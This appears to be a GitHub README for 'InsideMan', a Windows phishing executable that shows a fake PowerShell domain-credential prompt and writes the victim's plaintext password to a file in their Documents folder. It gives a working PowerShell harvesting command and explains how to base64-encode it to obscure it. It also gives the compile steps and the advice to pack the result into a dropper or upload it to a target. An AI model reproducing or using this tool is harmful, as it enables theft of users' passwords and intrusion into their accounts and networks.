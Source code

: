 InsideMan is an internal Windows phishing executable that utilizes Powershell Get-Credential calls in an attempt to coerce the user into typing thier plaintext password into the prompt. The plaintext password is then written to a file named windows32.txt located in the user's Documents directory. 

USAGE:

Use gcc to compile the cpp file. gcc.exe insideman.cpp -o insideman.exe

Attach to a dropper with iExpress or upload to target. 

Plaintext password is stored at C:\Users\$user\Documents\windows32.txt on the target machine.

ROLL YOUR OWN:

1). Open Powershell and copy the command below (Change text/output path as needed for specific pretexts):

$str= '$sessionCredential = $host.ui.PromptForCredential("Authentication Required", "Please Enter Your Domain Username and Password:", "$env:UserDomain\$env:USERNAME", ""); $mpass = [System.Net.NetworkCredential]::new("",$sessionCredential.password).Password; $user = $env:USERNAME; $mpass > C:\\Users\user\Documents\windows32.txt'

2.) Translate To Base64

[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

3.) Paste Base64 Output to Base64 String In InsideMan.cpp

4.) Compile 

gcc.exe insideman.cpp -o insideman.exe
